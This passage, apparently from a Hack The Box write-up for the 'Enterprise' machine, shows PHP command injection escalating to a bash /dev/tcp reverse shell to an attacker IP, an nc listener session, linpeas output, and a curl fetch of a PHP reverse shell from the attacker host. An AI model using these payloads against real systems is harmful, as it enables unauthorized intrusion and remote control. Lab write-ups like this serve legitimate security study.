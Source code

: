 The above image shows that preview is disabled in options. I enabled preview in settings options above.
Still don't see any shell back to me.
Let's try doing some simple command injections: 
```php
<?php
echo system("whoami");
?> 
```
and that when previewed shows: `www-data www-data`

Which means it's vulnerable to cmd-injection. `bash -i >& /dev/tcp/10.10.14.17/4444 0>&1` didn't work, there's still one workaround:
```php
<?php
system("bash -c 'bash -i >& /dev/tcp/10.10.14.17/4444 0>&1'");
?> 
```
gives us the shell.
```bash
$ rlwrap nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.10.61 37344
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@a7018bfdc454:/var/www/html$
```
Checking IP address: `172.17.0.4`

# www-data shell for host
Running linpeas gives some interesting findings:
```bash
[+] Interesting Files Mounted
/var/www/html/files /var/www/html/files rw,relatime - ext4 /dev/mapper/enterprise--vg-root rw,errors=remount-ro,data=ordered

[+] Possible Entrypoints
root root 3.1K Aug 31  2017 /entrypoint.sh
```
Entrypoint script setups the servers running on the box, connections to mysql database and so on.
`/var/www/html/files` is mounted from a host. Let's make a test file and check on https server if that reflects.

```bash
www-data@a7018bfdc454:/var/www/html/files$ echo "Can you see me?" > caretaker
```
```bash
root@TheCaretaker:~/HTB/Enterprise$ curl https://enterprise.htb/files/caretaker -k
Can you see me?
```

Let's try uploading a php reverse shell once again.
```bash
www-data@a7018bfdc454:/var/www/html/files$ curl 10.10.14.17/phprev.php -O phprev.php
```
